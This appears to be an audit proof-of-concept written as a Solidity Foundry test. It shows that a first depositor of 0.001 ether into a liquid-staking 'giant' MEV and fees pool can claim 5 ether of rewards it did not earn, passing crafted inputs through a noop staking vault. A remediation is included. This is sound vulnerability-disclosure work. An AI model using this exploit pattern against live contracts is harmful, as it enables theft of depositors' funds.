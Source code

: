 ```solidity
        // Deploy 1 network
        manager = deployNewLiquidStakingNetwork(
            factory,
            admin,
            true,
            "LSDN"
        );
        liquidStakingManager = manager;
        savETHVault = MockSavETHVault(address(manager.savETHVault()));
        giantSavETHPool = new MockGiantSavETHVaultPool(factory, savETHVault.dETHToken());
        giantFeesAndMevPool = new GiantMevAndFeesPool(factory);
    }

    /*  In this test case, the first comer depositing into the giant pool can collect all the rewards already collected
     *  whatever the amount even if it has not contributed to generate them. Is it expected?
     *  Severity: Critical
     *
     *  Remediation:
     *    The calculation of the state, i.e., claimed AND accumulatedETHPerLPShare must happen after the token transfer instead of before.
     *
     */
    function testFirstComerSwipeRewards() public {
        // Set up users and ETH
        address rewarder = accountThree; vm.deal(rewarder, 10 ether);
        address hacker = accountTwo; vm.deal(hacker, 1 ether);
        uint256 rewards = 5 ether;

        // rewards the pool
        vm.prank(rewarder); payable(giantFeesAndMevPool).transfer(rewards);

        vm.startPrank(hacker);
        giantFeesAndMevPool.depositETH{value: 0.001 ether}(0.001 ether);

        // Hacker can claim the 5 ether even if he did not contribute to receive it...
        assertRewardsClaimed(hacker, rewards);
    }

    // claimRewards claims the rewards with crafted inputs to passe some require statements.
    function claimRewards(address _recipient) private {
        address[] memory _stakingFundsVaults = new address[](1);
        bytes[][] memory _blsPublicKeysForKnots = new bytes[][](1);
        _stakingFundsVaults[0] = address(noopContract);
        giantFeesAndMevPool.claimRewards(_recipient, _stakingFundsVaults, _blsPublicKeysForKnots);
    }

    // assertRewardsClaimed claim rewards and check if it changed the balance of the account.
    function assertRewardsClaimed(address _recipient, uint256 expectedReward) public {
        uint256 beforeBalance = address(_recipient).balance;
        claimRewards(_recipient);
        uint256 afterBalance = address(_recipient).balance;
        // as you can see, nothing as been withdrawn...
        assertEq(afterBalance - beforeBalance, expectedReward);
    }
}
```
